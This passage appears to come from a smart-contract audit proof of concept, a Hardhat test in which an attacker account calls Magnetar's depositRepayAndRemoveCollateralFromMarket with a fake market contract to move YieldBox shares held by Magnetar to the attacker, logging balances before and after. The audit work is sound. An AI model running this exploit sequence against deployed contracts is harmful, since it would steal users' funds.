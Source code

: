 ```
            console.log("asset in YieldBox owned by FakeMarket - BEFORE: ", await yieldBox.balanceOf(fakeMarket.address,assetId));

            console.log("\n==============================================================================\n");

            //@audit => (Using the fake market contract, when the marketInterface.repay() is called, this function will basically do a transfer of shares in the YieldBox from the Magnetar contract to an address of the attacker!)
            //@audit => Attacker extract funds from the user and calls Market.repay(), but the market is a fake market and will do a direct transfer of the assets owned by Magnetar in the YieldBox to an account of the attacker!

            await magnetar
                .connect(attacker)
                .depositRepayAndRemoveCollateralFromMarket(
                    // wethUsdcSingularity.address,
                    fakeMarket.address,
                    eoa1.address,
                    userBorrowPart.mul(2), //depositAmount
                    userBorrowPart, //repayAmount
                    0, //collateralAmount
                    false,
                    {
                        withdraw: false,
                        withdrawLzFeeAmount: 0,
                        withdrawOnOtherChain: false,
                        withdrawLzChainId: 0,
                        withdrawAdapterParams: ethers.utils.toUtf8Bytes(''),
                    },
                );

            console.log("asset in YieldBox owned by Magnetar - AFTER: ", await yieldBox.balanceOf(magnetar.address,assetId));
            console.log("asset in YieldBox owned by User - AFTER: ", await yieldBox.balanceOf(eoa1.address,assetId));
            console.log("asset in YieldBox owned by FakeMarket - AFTER: ", await yieldBox.balanceOf(fakeMarket.address,assetId));


            //@audit-info => User still needs to approve the Magnetar contract on the Singularity market to repay the borrow before actually executing the depositRepayAndRemoveCollateralFromMarket() 
            // await wethUsdcSingularity
            //     .connect(eoa1)
            //     .approveBorrow(
            //         magnetar.address,
            //         await yieldBox.toShare(
            //             collateralId,
            //             collateralAmount,
            //             true,
            //         ),
            //     );
            
            //@audit-info => This is the tx that the user wanted to execute
            // await magnetar
            //     .connect(eoa1)
            //     .depositRepayAndRemoveCollateralFromMarket(
            //         wethUsdcSingularity.address,
            //         eoa1.address,
            //         userBorrowPart.mul(2),
            //         userBorrowPart,
            //         collateralAmount,
            //         true,
```